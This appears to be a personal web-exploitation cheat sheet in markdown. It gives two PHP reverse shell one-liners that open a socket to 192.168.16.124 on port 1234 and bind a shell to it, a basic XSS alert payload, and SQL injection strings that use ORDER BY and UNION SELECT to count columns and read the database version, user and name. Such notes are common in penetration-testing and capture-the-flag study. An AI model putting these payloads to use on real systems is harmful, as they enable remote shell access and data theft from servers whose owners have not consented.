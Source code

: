 # web

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

(script)alert("XSS")(/script) - use angle brackets instead of parentheses


SQL INJECTION
-------------

Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 1#`

etc.

Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`

Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`